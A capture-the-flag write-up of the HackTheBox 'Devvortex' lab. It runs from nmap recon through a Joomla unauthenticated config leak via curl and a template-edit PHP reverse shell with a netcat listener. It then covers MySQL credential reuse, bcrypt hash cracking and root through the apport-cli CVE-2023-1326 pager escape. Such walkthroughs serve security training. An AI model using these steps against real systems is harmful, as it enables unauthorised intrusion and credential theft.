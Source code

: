 ```yaml
---
title: Devvortex
date: 2025-2-15 00:00:15 +0800
categories: [HackTheBox, HTB_Easy]
tags: [joomla, mysql]     # TAG names should always be lowercase
image: 
    path: /assets/hackthebox/devvortex/devvortex1.png
---
```


## Reconnaissance

I First start with nmap scan to scan the open ports 


Full nmap scan
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-25 23:10 WAT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 23:10
Completed NSE at 23:10, 0.00s elapsed
Initiating NSE at 23:10
Completed NSE at 23:10, 0.00s elapsed
Initiating NSE at 23:10
Completed NSE at 23:10, 0.00s elapsed
Initiating Ping Scan at 23:10
Scanning 10.10.11.242 [2 ports]
Completed Ping Scan at 23:10, 0.93s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 23:10
Completed Parallel DNS resolution of 1 host. at 23:10, 0.20s elapsed
Initiating Connect Scan at 23:10
Scanning 10.10.11.242 [2 ports]
Discovered open port 80/tcp on 10.10.11.242
Discovered open port 22/tcp on 10.10.11.242
Completed Connect Scan at 23:10, 0.61s elapsed (2 total ports)
Initiating Service scan at 23:10
Scanning 2 services on 10.10.11.242
Completed Service scan at 23:10, 6.79s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.242.
Initiating NSE at 23:10
Completed NSE at 23:10, 19.36s elapsed
Initiating NSE at 23:10
Completed NSE at 23:11, 2.56s elapsed
Initiating NSE at 23:11
Completed NSE at 23:11, 0.00s elapsed
Nmap scan report for 10.10.11.242
Host is up (0.85s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 23:11
Completed NSE at 23:11, 0.00s elapsed
Initiating NSE at 23:11
Completed NSE at 23:11, 0.00s elapsed
Initiating NSE at 23:11
Completed NSE at 23:11, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.82 seconds

```

Theres a web server on port 80 i add the name to the hosts file

![devvortex ](/assets/hackthebox/devvortex/devvortex2.png)

The webpage that exist on the web server

![devvortex ](/assets/hackthebox/devvortex/devvortex3.png)

There's nothing found in 
- `robots.txt`
- `sitemap.xml`

Discovered a subdomain `dev` during sub domain enumeration

![ffuf ](/assets/hackthebox/devvortex/devvortex4.png)

There's a webpage hosted at `dev.devvortex.htb`

![ffuf ](/assets/hackthebox/devvortex/devvortex5.png)

Looking at it's `robots.txt` file i found some directories

![robots.txt ](/assets/hackthebox/devvortex/devvortex6.png)

Navigating to `http://dev.devvortex.htb/administrator/` found a login page


![devvortex ](/assets/hackthebox/devvortex/devvortex7.png)


## Exploitation

From the webpage it looks like its a joomla cms

There was a vulnerability reported on joomla `# Joomla! v4.2.8 - Unauthenticated information disclosure` which it seems to be vulnerable to https://www.exploit-db.com/exploits/51334

There's a part in the exploit that attempts to connect to `#{root_url}/api/index.php/v1/users?public=true`  replacing it with the original url and using curl to download the request we get

`curl "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true" | jq .`

![devvortex ](/assets/hackthebox/devvortex/devvortex8.png)


I found that credentials are found in the downloaded request. So i used curl to get a json format of the request using the command
`curl "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true" | jq .`

I got a clear json format of the credentials

![devvortex ](/assets/hackthebox/devvortex/devvortex9.png)

I was able to log into the joomla administrator dashboard using the credentials found in the curl command

![devvortex ](/assets/hackthebox/devvortex/devvortex10.png)


I want to gain gain RCE by adding a snippet of **PHP code** to gain **RCE**. We can do this by **customizing** a **template**.

- Click on Settings


![devvortex ](/assets/hackthebox/devvortex/devvortex11.png)

**Click** on `Site Templates` to pull up the templates menu.

![devvortex ](/assets/hackthebox/devvortex/devvortex12.png)

Click on any template available


![devvortex ](/assets/hackthebox/devvortex/devvortex13.png)

Finally, you can click on  `error.php` page. We'll replace what is in the error.php with a php reverse shell

![devvortex ](/assets/hackthebox/devvortex/devvortex14.png)

![devvortex ](/assets/hackthebox/devvortex/devvortex15.png)

 **Save & Close**
we start a netcat listner `nc -nvlp 4444`

then visited the following URL and got my shell!

[dev](http://dev.devvortex.htb/templates/cassiopeia/error.php)


![devvortex ](/assets/hackthebox/devvortex/devvortex16.png)

When we dump the credentials using the joomla exploit it showed mysql application was running so while on a shell on the target i tried to use the credentials found in the dump to log into the mysql server. 

![devvortex ](/assets/hackthebox/devvortex/devvortex17.png)

I was able to log into mysql (tip: if the mysql password has special characters try joining it to the -p flag for example -p123#)

![devvortex ](/assets/hackthebox/devvortex/devvortex18.png)

shows there's a database joomla

![devvortex ](/assets/hackthebox/devvortex/devvortex19.png)

there's a particular table of interest 

![devvortex ](/assets/hackthebox/devvortex/devvortex20.png)

Found the hash of user logan

![devvortex ](/assets/hackthebox/devvortex/devvortex21.png)

Putting loan hash in a hash identifier says the hash is bcrypt(blowfish) i used hashcat to crack the hash.

Crack logan's hash and got the password

![devvortex ](/assets/hackthebox/devvortex/devvortex22.png)

I used the password to ssh into the machine as logan

![devvortex ](/assets/hackthebox/devvortex/devvortex23.png)

Found user flag

![devvortex ](/assets/hackthebox/devvortex/devvortex24.png)

I can't directly access root.txt i must elevate privileges  

Found logan can run a particular command with no password

## Privilege Escalation

![devvortex ](/assets/hackthebox/devvortex/devvortex25.png)

looking at the help of the command 

![devvortex ](/assets/hackthebox/devvortex/devvortex26.png)

Running the command `sudo /usr/bin/apport-cli -v` to list the version of apport as listed in the help manual i found that the apport version is vulnerable to `CVE-2023-1326` that can lead to privilege escalation.

We can exploit it as follows (we want to make a crash report so we can use the crash report to elevate privileges)

`sudo /usr/bin/apport-cli --file-bug`

Select option 1

![devvortex ](/assets/hackthebox/devvortex/devvortex27.png)

Select option 2

![devvortex ](/assets/hackthebox/devvortex/devvortex28.png)


Press any key to continue

Then select option V

![devvortex ](/assets/hackthebox/devvortex/devvortex29.png)

Then type `!/bin/bash` to spawn a root shell

![devvortex ](/assets/hackthebox/devvortex/devvortex30.png)

got root flag

![devvortex ](/assets/hackthebox/devvortex/devvortex31.png)





